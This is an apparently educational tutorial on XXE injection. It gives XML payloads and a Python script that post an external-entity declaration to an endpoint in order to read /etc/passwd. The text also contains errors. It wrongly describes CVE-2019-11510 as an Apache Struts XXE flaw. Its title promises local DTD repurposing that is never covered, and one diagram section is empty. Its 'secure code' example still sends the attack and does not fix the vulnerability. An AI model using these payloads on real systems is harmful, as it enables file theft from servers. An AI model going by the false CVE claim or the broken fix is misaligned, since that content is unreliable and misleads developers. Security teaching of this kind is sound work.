

## XXE Injection: Exploiting Vulnerabilities to Retrieve Data Using Local DTD Repurposing

### Introduction to XXE Injection

XML External Entity (XXE) injection is a type of attack against an application that parses XML input. This vulnerability occurs when an attacker can inject malicious XML content into an application, causing it to process external entities in a way that can lead to unauthorized data access, denial of service, or other malicious actions. Understanding XXE injection is crucial for securing applications that handle XML data.

### Background Theory

#### What is XML?

XML (Extensible Markup Language) is a markup language designed to store and transport data. Unlike HTML, which is primarily used for displaying data, XML focuses on the structure and content of data. XML documents consist of elements, attributes, and text content. Elements are defined using tags, and attributes provide additional information about the elements.

#### What is an XML Entity?

An XML entity is a reference to a value that can be used within an XML document. Entities can be predefined (like `&lt;` for `<`) or user-defined. User-defined entities can be declared within the document using the `<!ENTITY>` declaration. For example:

```xml
<!DOCTYPE root [
    <!ENTITY example "This is an example">
]>
<root>
    <element>&example;</element>
</root>
```

In this example, `&example;` will be replaced with "This is an example" when the XML document is parsed.

#### What is an External Entity?

External entities allow an XML document to reference data from an external source. This can be a local file, a remote URL, or a system resource. External entities are declared using the `SYSTEM` keyword followed by the URI of the external resource. For example:

```xml
<!DOCTYPE root [
    <!ENTITY ext SYSTEM "file:///etc/passwd">
]>
<root>
    <element>&ext;</element>
</root>
```

In this example, `&ext;` will be replaced with the contents of `/etc/passwd`.

### XXE Injection Attack Vector

#### How XXE Injection Works

XXE injection occurs when an application accepts XML input from an untrusted source and processes it without proper validation or sanitization. An attacker can inject malicious XML content that includes external entity declarations, causing the application to read sensitive files, make network connections, or perform other unintended actions.

#### Real-World Example: CVE-2019-11510

CVE-2019-11510 is a XXE vulnerability found in the Apache Struts framework. This vulnerability allowed attackers to read arbitrary files on the server by injecting malicious XML content. The attack vector involved sending a specially crafted XML payload to a vulnerable endpoint, which would then parse the XML and execute the external entity declarations.

### Lab Setup and Environment

To understand and practice XXE injection, we will use a simulated environment. In this lab, we will exploit a vulnerability in a web application to retrieve the contents of a local file using XXE injection.

#### Setting Up the Lab

1. **Access the Lab**: Ensure you have access to the lab environment. This can be done through a virtual machine or a cloud-based lab provider.
2. **Install Required Tools**: Install Python and any necessary libraries for making HTTP requests. For example, you can use the `requests` library in Python.

### Exploiting XXE Injection

#### Step-by-Step Guide

1. **Identify the Vulnerable Endpoint**:
   - Determine the endpoint that accepts XML input. This can be done by inspecting the application's API documentation or by analyzing the network traffic.

2. **Craft the Malicious XML Payload**:
   - Create an XML document that includes an external entity declaration pointing to the file you want to retrieve. For example:

   ```xml
   <!DOCTYPE root [
       <!ENTITY ext SYSTEM "file:///etc/passwd">
   ]>
   <root>
       <data>&ext;</data>
   </root>
   ```

3. **Send the Request**:
   - Use Python to send the crafted XML payload to the vulnerable endpoint. Here is a complete example:

   ```python
   import requests

   url = "http://example.com/vulnerable-endpoint"
   xml_payload = """
   <!DOCTYPE root [
       <!ENTITY ext SYSTEM "file:///etc/passwd">
   ]>
   <root>
       <data>&ext;</data>
   </root>
   """

   headers = {
       "Content-Type": "application/xml",
   }

   response = requests.post(url, data=xml_payload, headers=headers, verify=False)

   print("The following is the content of the /etc/passwd file:")
   print(response.text)
   ```

   - **Explanation of the Code**:
     - `url`: The URL of the vulnerable endpoint.
     - `xml_payload`: The crafted XML payload containing the external entity declaration.
     - `headers`: The HTTP headers, including the `Content-Type` set to `application/xml`.
     - `verify=False`: Disables SSL certificate verification. This is often necessary in lab environments but should be avoided in production.
     - `response.text`: Prints the response from the server, which should include the contents of the `/etc/passwd` file.

4. **Verify the Response**:
   - Check the response to ensure that the contents of the `/etc/passwd` file were successfully retrieved.

### Mermaid Diagrams

#### Network Topology

```mermaid
graph TD
    A[Attacker] -->|HTTP POST| B[Web Application]
    B -->|Parse XML| C[XML Parser]
    C -->|Read File| D[/etc/passwd]
    D -->|Return Content| C
    C -->|Response| B
    B -->|HTTP Response| A
```

#### Sequence Diagram



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Improper Input Validation**: Failing to validate and sanitize XML input can lead to XXE injection vulnerabilities.
2. **Disabling External Entity Processing**: Some parsers allow disabling external entity processing, which can mitigate XXE attacks.
3. **SSL Verification**: Disabling SSL verification (`verify=False`) can expose the application to man-in-the-middle attacks.

#### Detection

1. **Static Analysis**: Use static analysis tools to scan for potential XXE vulnerabilities in XML parsing code.
2. **Dynamic Analysis**: Use dynamic analysis tools to test the application for XXE vulnerabilities by sending crafted payloads.
3. **Logging and Monitoring**: Monitor logs for unusual XML input patterns that may indicate an XXE attack attempt.

### How to Prevent / Defend Against XXE Injection

#### Secure Coding Practices

1. **Validate and Sanitize Input**: Always validate and sanitize XML input to ensure it does not contain malicious content.
2. **Disable External Entity Processing**: Configure XML parsers to disable external entity processing.
3. **Use Secure Libraries**: Use secure XML parsing libraries that are known to handle XXE vulnerabilities properly.

#### Configuration Hardening

1. **Disable DTD Loading**: Disable DTD loading in XML parsers to prevent the loading of external entities.
2. **Enable Secure Parsing Modes**: Enable secure parsing modes in XML parsers that prevent the execution of external entities.

#### Secure Code Example

##### Vulnerable Code

```python
import requests

url = "http://example.com/vulnerable-endpoint"
xml_payload = """
<!DOCTYPE root [
    <!ENTITY ext SYSTEM "file:///etc/passwd">
]>
<root>
    <data>&ext;</data>
</root>
"""

headers = {
    "Content-Type": "application/xml",
}

response = requests.post(url, data=xml_payload, headers=headers, verify=False)

print("The following is the content of the /etc/passwd file:")
print(response.text)
```

##### Secure Code

```python
import requests
from defusedxml.ElementTree import fromstring

url = "http://example.com/vulnerable-endpoint"
xml_payload = """
<!DOCTYPE root [
    <!ENTITY ext SYSTEM "file:///etc/passwd">
]>
<root>
    <data>&ext;</data>
</root>
"""

headers = {
    "Content-Type": "application/xml",
}

# Use defusedxml to parse XML securely
response = requests.post(url, data=xml_payload, headers=headers, verify=False)
secure_xml = fromstring(response.text)

print("The following is the content of the /etc/passwd file:")
print(secure_xml.find('data').text)
```

### Practice Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a series of labs specifically designed to teach and practice XXE injection.
- **OWASP Juice Shop**: A deliberately insecure web application that includes XXE injection vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application with various security vulnerabilities, including XXE injection.

These labs provide a controlled environment to learn and practice XXE injection techniques safely.

### Conclusion

Understanding and defending against XXE injection is critical for securing applications that handle XML data. By following secure coding practices, configuring parsers correctly, and using secure libraries, you can significantly reduce the risk of XXE attacks. Regularly testing and monitoring your applications can help detect and mitigate XXE vulnerabilities before they can be exploited.

---
<!-- nav -->
[[17-XXE Injection Exploiting Data Retrieval via Local DTD Repurposing|XXE Injection Exploiting Data Retrieval via Local DTD Repurposing]] | [[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/19-Conclusion|Conclusion]]
